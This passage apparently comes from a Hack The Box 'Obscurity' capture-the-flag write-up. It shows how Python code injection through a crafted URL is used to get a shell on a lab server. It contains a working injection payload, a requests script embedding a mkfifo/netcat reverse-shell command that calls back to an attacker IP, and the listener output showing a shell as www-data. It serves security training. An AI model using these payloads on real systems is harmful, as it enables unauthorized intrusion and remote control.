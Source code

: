 However, we see that there's a `SyntaxError` caused by a mistake I'd made here - I'd forgotten to take care if the trailing `'` at the end of the prepared statement. So in our next try, let's take care of it by adding another `'` at the end of our input to pair up with the trailing `'` and close the loop. Note that to add this `'`, we need to first add a `;` before to close our injected command -> `;'`.
  
  
```
kali@kali:~$ ./test.py "wow';print (%27a%27);'"
[+] exec (info.format(path))
[+] print
output = 'Document: wow';print ('a');''
[+] exec
a
```
Attempted payload: `wow';print (%27a%27);'`  
Notice the `a` below the `[+] exec`? We've successfully demonstrated command injection! Note here that we now have the syntax for our command injection: `"wow';<our-url-encoded-command>;'"`  

To get a shell back this way, we can automate this by Python - and if we use Python's `requests` module, we can take advantage of the fact that the `requests` module automatically URL-encodes inputs. How convenient is that?  

Our `shell-trigger.py`:
```python
kali@kali:~$ cat shell-trigger.py 
import requests

cmd = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.64 4444 >/tmp/f'
payload = "wow';os.system ('"+cmd+"');'"
url = 'http://obscurity.htb:8080/'

r = requests.get(url+payload)
print (r.text) #for debugging
```
The `cmd` contains our reverse-shell command, which is inserted into our `payload` structure. Notice that the `payload` structure is `"wow';os.system ('"+cmd+"');'"`, where we use the `os.system` function to execute our reverse-shell command. Told ya it was useful that the `SuperSecureServer.py` imports `os`!

### Shell as www-data

Replace the IP address and port in our `shell-trigger.py` with your own, open up a listening netcat, and run the file. You should get a shell back:
```
kali@kali:~$ python shell-trigger.py 
```
```
kali@kali:~/htb/boxes/obscurity/dirb$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.168] 40980
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
  